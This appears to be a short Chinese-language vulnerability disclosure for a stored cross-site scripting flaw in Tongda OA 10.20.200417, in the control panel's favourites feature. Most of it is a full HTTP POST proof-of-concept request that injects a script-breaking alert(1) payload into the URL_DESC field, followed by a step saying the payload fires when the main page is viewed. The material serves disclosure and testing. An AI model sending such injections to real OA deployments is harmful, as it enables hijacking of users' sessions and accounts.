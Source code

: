 # TONGDA OFFICE Anywhere 10.20.200417-store xss

## 漏洞描述

通达OA 控制面板 页面收藏夹处存在存储型xss漏洞

## 复现步骤

### 步骤1

提交poc

```
POST /general/person_info/fav/add.php HTTP/1.1
Host: 127.0.0.1:88
Content-Length: 87
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://211.138.191.187:88
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://211.138.191.187:88/general/person_info/fav/index.php?IS_MAIN=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SID_1=9cdfdedc; SID_4002=fd08b4a7; USER_NAME_COOKIE=%C0%EE%D3%C2; OA_USER_ID=3795; PHPSESSID=r4pki3jd1etr9bpbfd7o6uivo5; SID_3795=b8a99e8d
Connection: close

URL_NO=1&URL_DESC=cyberlab"]%3balert(1)//&URL=http%3A%2F%2Ftest.com&button=%CC%ED%BC%D3
```



### 步骤2

访问主页面，漏洞触发

![tongda_xss](https://github.com/jqz41401/jqzCVE/blob/master/img/tongda_xss.png)